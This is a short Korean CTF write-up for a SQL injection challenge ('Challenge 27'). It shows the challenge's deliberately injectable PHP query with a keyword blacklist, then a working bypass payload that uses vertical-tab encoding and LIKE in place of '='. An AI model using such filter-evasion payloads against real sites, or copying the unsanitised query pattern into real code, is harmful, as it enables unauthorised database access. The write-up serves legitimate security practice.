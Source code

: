#27
=
27번 문제 화면이다.

![](https://postfiles.pstatic.net/MjAxOTEyMDRfMjU3/MDAxNTc1NDU2Mzg2NTQ0.LfHsX0MjMFDukXEaT-r1XiIDjHllXNqyBims24G_7w4g.epC2VRbbxMVf01dqkh18PdVEAOZuvQ0FGfKYCBTMq5Mg.JPEG.rlaeoghks823/K-026.jpg?type=w773)

소스 보기를 통해 소스를 살펴보았다.
```
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```

18번 문제랑 유사해보인다.

그러나 차이점은 이 문제에서는 '='를 사용하지 못하며 뒤에 'die("query error");'를 지워야할 필요가 있다.

주석처리하는 방법 중 '--'를 이용하여 코드를 짜보았다.

```
no=111)%0bor%0bno%0blike%0b2%0b--%0b
```

해결되었다.
